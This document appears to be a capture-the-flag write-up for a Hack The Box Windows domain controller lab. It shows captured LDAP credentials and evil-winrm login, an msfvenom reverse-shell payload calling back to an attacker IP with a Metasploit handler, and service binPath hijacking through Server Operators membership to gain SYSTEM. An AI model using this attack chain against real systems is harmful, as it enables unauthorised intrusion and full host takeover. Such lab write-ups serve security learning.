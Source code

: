 Responder:

```
[LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

Enum4linux-ng:

```
enum4linux-ng 10.129.95.241 -u svc-printer -p '1edFg43012!!' -oA enum4.out
```

# Privilege Escalation

After logging in with `evil-winrm` with prepared scripts
https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/
```
evil-winrm -i 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!' -s /home/volt/htb/return

whoami /priv
Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

```

`SeBackupPrivilege`:
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
I can get access to the file system but I can not manipulate files :(

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=1337 -f exe -o shell.exe
upload shell.exe

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```

```
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2022_21882_win32k                    Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
```

Nothing works so:
```
net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   11/27/2023 6:27:38 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators     
Global Group memberships     *Domain Users    
```

## Server Operators group
https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators
#local_group #windows_privesc
Members of this group can start/stop system services. Let's modify a service binary path to obtain a reverse shell.
```
sc.exe stop vss
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"
sc.exe start vss
```

This will start a new shell with NT Authority/SYSTEM in meterpreter that needs to be migrated:
```
ps
migrate <pid> # of SYSTEM
```

And full access is gained!